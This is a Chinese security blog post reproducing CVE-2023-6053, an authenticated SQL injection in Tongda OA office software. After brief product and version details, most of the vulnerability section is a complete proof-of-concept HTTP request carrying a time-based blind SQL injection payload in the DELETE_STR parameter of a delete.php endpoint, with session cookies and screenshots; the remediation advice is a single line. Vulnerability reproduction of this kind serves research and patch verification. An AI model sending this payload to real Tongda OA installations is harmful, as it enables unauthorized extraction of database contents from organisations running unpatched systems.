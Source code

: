 #  【漏洞复现】通达OA SQL注入漏洞（CVE-2023-6053）   
紫色皓月  皓月的笔记本   2023-11-26 23:00  
  
声明：请勿将文章内的相关技术用于非法目的，如有相关非法行为与文章作者和本公众号无关。请遵守《中华人民共和国网络安全法》。  
  
0X01 简介  
  
通达OA（Office Anywhere网络智能办公系统）是由北京通达信科科技有限公司自主研发的协同办公自动化软件，是与中国企业管理实践相结合形成的综合管理办公平台。  
  
  
  
官网：  
  
https://www.tongda2000.com/  
  
  
漏洞编号：  
  
CV  
E-2023-6053  
  
  
  
影响范围：  
  
通达OA >= 2017版  
  
通达OA < 11.10  
  
  
复现环境：  
  
通达OA 2017版  
  
  
0X02   
漏洞复现  
  
漏洞利用需登录。  
  
POC：  
```
GET /general/system/censor_words/manage/delete.php?DELETE_STR=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 192.168.245.134
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; SID_1=620a3f5c; _csrf=fb9605328bee63ab5b949c268b858d698cf75170a848c7b0882a2b8a14d66f71a%3A2%3A%7Bi%3A0%3Bs%3A5%3A%22_csrf%22%3Bi%3A1%3Bs%3A32%3A%22dJ8hKTNoKf_MTAQdu5ag7otcWNXsBgUm%22%3B%7D; creat_work=new; PHPSESSID=uim7dre68mjnos5qhk7oljv264; SID_66=1ca61957
Upgrade-Insecure-Requests: 1

右下角看延时
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucorc7hV25KhVhoJ5W5ch74C4JhInzmbUoW6yicJGJa0JLpvomyubvKq7Q/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucoJEEhKHFY8tCS4Dnq493iaMOtqpd26B97NiaicESb7eeRc2By9gXYhx3pA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/4axEiaIyhaPIa14BCsFvSOA7QejLe5ucoB91X0CvQXOsdic51qlOQdDmHoTSMgaEnfcv2TgNOibUGibP0CBUobP7Sg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
0X03 修复建议  
  
更新至最新版！  
  
  
0X04 写在最后  
  
  
回复“加群”，获取群号。  
  
侵删！  
  
  
